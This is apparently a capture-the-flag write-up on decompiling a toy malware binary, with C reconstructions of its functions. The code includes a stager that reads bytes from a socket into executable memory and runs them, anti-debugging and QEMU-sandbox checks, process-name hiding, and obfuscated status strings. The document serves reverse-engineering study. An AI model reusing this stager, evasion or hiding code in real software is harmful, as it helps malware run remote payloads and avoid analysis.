

# Malware

## Introduction

The first thing we tackled was `main` while stubbing out all of the functions.
We got tripped up while defining `payload` and `check` as the following:

```c
int check(void){
  return 0;
}

int payload(void){
  return 0;
}
```

This resulted in two lines of assembly clearing $eax before `call`'ing both of
these functions. I'm not sure why this occurs, but some [Stack Overflow] hinted
that it may have been because the compiler didn't know how many arguments the
function could take (even though we specified `void`?). It then would have not
made any assumptions about the arguments. In [variadic] functions, $AL
is used to hold the number of vector registers holding arguments to the
function. This register needs to be cleared before calling the function if we
indeed aren't passing it any arguments. Just a guess though?

We then looked at `hide` which was pretty straightforward from the Binary Ninja
output. The only sticky part was the assembly instruction `cdqe` which sign
extended a 32bit value into a 64bit register. Thus in the call to `sprintf` we
had to cast the value to an `long`. This got us a match for this small function.

```c
int hide(char ** a){
  int len;
  len = strlen(*a);
  prctl(PR_SET_NAME, PROC_NAME);
  return snprintf(*a, len, "%s%*c", PROC_NAME, (long)len-4, " ");
}
```

The next shortest function was `myprint`. This was also copy-paste from Binary
Ninja where the latters output was the following:

```c
int64_t myprint(char* arg1)

int32_t len = strlen(arg1)
char* buf = malloc(bytes: sx.q(len))
strcpy(buf, arg1)
for (int32_t var_18 = 0; var_18 s< len; var_18 = var_18 + 1)
    buf[sx.q(var_18)] = buf[sx.q(var_18)] - 1
puts(str: buf)
fflush(fp: stdout)
return free(mem: buf)
```

And our 100% match of the function:

```c
void myprint(char * a){
  int32_t len;
  char * buf;

  len = strlen(a);
  buf = malloc((int64_t)len); // Again, the `cdqe` instruction popped up.

  strcpy(buf, a);
  for (int32_t i = 0; i < len; i+=1){
    buf[i] = buf[i] - 1;
  }
  puts(buf);
  fflush(stdout);
  return free(buf);

  return;
}
```

The tricky part about `payload` was that you needed to recognize that there was
a struct present in the function. This was made clear with Ghidra's output (I
am a lot more familiar with laying out structures in Ghidra than I am with
Binja.):



Knowing that, we got a 100% match with:

```c
int payload(){

  int fd;
  int conn;
  struct sockaddr_in sa;
  void * buf;

  fd = socket(2, 1, 0);

  sa.sin_addr.s_addr = inet_addr("127.0.0.1");
  sa.sin_family = AF_INET;
  sa.sin_port = htons(8888);

  if (connect(fd, &sa, 16) < 0){
    myprint("Dpoofdujpo!gbjmfe/");
    exit(4);
  }
  buf = mmap(NULL,4096,7,0x22,-1,0);
  if (read(fd, buf, 1024) < 0){
    myprint("Dbo(u!sfbe/");
    exit(5);
  }
  myprint("Mfu(t!hp/");
  (*(void(*)())buf)();

  return 0;
}
```

`check` was tricky because of the buffer that was zeroed out on the stack. We
had to get some assistance after the challenge to figure that part out and get
the stack offsets to align correctly.

```c
void check(){
  int fd;
  char buf[16] = {0};

  if (((*(unsigned char *)payload) & 0xff) == 0xcc){
    myprint("Csfblqpjou!efufdufe/");
    exit(1);
  }

  if (ptrace(PTRACE_TRACEME, 0) == -1){
    myprint("Efcvhhfs!efufdufe/");
    exit(2);
  }

  fd = open("/sys/class/dmi/id/sys_vendor", O_RDONLY);
  read(fd, buf, 8);
  if (strncmp(buf, "QEMU", 4) == 0){
    myprint("Tboecpy!efufdufe/");
    exit(3);
  }
}
```

This was a great challenge and we learned a lot from the disassembly!

[Stack Overflow]:https://stackoverflow.com/questions/6212665/why-is-eax-zeroed-before-a-call-to-printf
[variadic]: https://en.wikipedia.org/wiki/Variadic_function
